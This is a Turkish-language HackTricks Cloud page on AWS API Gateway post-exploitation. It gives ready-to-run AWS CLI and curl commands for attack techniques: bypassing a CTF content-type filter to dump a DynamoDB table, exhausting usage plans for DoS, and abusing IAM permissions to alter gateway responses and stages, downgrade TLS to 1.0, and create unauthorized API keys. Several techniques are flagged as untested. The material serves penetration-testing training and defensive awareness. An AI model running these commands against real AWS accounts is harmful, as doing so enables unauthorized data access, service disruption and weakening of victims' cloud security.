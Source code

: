 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## API Gateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Açık olmayan API'lere erişim

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) adresinde `com.amazonaws.us-east-1.execute-api` servisi ile bir uç nokta oluşturabilirsiniz, uç noktanızı erişiminiz olan bir ağda (potansiyel olarak bir EC2 makinesi aracılığıyla) açığa çıkarın ve tüm bağlantılara izin veren bir güvenlik grubu atayın.\
Daha sonra, EC2 makinesinden uç noktaya erişebilecek ve daha önce açığa çıkarılmamış olan gateway API'yi çağırabileceksiniz.

### İstek gövdesi geçişini atlatma

Bu teknik [**bu CTF yazısında**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp) bulundu.

[AWS belgelerinde](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) `PassthroughBehavior` bölümünde belirtildiği gibi, varsayılan olarak, **`WHEN_NO_MATCH`** değeri, isteğin **Content-Type** başlığını kontrol ederken, isteği herhangi bir dönüşüm olmadan arka uca iletecektir.

Bu nedenle, CTF'de API Gateway, `Content-Type: application/json` ile bir istek gönderildiğinde **bayrağın dışarı sızmasını engelleyen** bir entegrasyon şablonuna sahipti:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ancak, **`Content-type: text/json`** ile bir istek göndermek bu filtreyi engelleyecektir.

Son olarak, API Gateway yalnızca `Get` ve `Options` izin verdiğinden, gövdeye sorguyu koyarak ve `X-HTTP-Method-Override: GET` başlığını kullanarak sınırsız bir dinamoDB sorgusu göndermek mümkündü:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Kullanım Planları DoS

**Enumeration** bölümünde anahtarların **kullanım planını** nasıl **edineceğinizi** görebilirsiniz. Anahtarınız varsa ve bu anahtar **aylık X kullanım** ile **sınırlıysa**, **onu kullanabilir ve bir DoS oluşturabilirsiniz**.

**API Anahtarı** sadece **`x-api-key`** adlı bir **HTTP başlığı** içine **eklenmelidir**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **özel başlıklar veya hassas bilgileri sızdıran ya da kötü niyetli betikleri çalıştıran yanıt şablonları içerecek şekilde mevcut bir Gateway Yanıtını değiştirebilir**. 

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Hassas bilgilerin sızdırılması, kötü niyetli betiklerin çalıştırılması veya API kaynaklarına yetkisiz erişim.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway aşamasını değiştirebilir, trafiği farklı bir aşamaya yönlendirebilir veya önbellek ayarlarını değiştirerek önbelleğe alınmış verilere yetkisiz erişim elde edebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Önbelleğe alınmış verilere yetkisiz erişim, API trafiğini kesintiye uğratma veya yakalama.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway REST API yönteminin yöntem yanıtını, hassas bilgileri sızdıran veya kötü niyetli betikleri çalıştıran özel başlıklar veya yanıt şablonları içerecek şekilde değiştirebilir**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: Hassas bilgilerin sızdırılması, kötü niyetli betiklerin çalıştırılması veya API kaynaklarına yetkisiz erişim.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **API Gateway REST API ayarlarını güncelleyerek günlüklemeyi devre dışı bırakabilir veya minimum TLS sürümünü değiştirebilir, bu da API'nin güvenliğini zayıflatabilir**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: API'nin güvenliğini zayıflatma, yetkisiz erişime veya hassas bilgilerin ifşasına neden olma.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` ve `apigateway:CreateUsagePlanKey` izinlerine sahip bir saldırgan **yeni API anahtarları oluşturabilir, bunları kullanım planlarıyla ilişkilendirebilir ve ardından bu anahtarları API'lere yetkisiz erişim için kullanabilir**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potansiyel Etki**: API kaynaklarına yetkisiz erişim, güvenlik kontrollerinin atlatılması.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
